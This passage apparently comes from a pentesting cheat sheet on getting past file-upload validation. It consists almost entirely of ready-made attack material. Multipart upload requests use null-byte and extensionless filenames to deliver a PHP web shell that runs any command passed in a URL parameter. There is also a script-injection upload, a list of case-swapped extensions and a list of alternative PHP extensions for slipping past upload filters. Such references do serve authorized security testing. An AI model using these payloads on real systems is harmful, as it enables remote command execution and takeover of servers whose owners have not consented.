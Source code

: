 #### Terminator
If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: exploit.php;.jpg or exploit.php%00.jpg
```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload.php%00.jpg"
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```

#### No File Extention
Sometimes when no file extention is provided it will default to the content-type.
```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload."
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```

```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload."
Content-Type: text/html

<script>alert(1)</script>
-----------------------------4829104394923874193918493216
```

#### Capitalization
```
.AsP
.aSpX
.PhP
.hTMl
.SvG
.XmL
.CoNfIg
.HtaCceSs
```

#### PHP File Extention Bypasses
The following file extentions can be used to act like a `.php` file upload:
```
.php 
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
```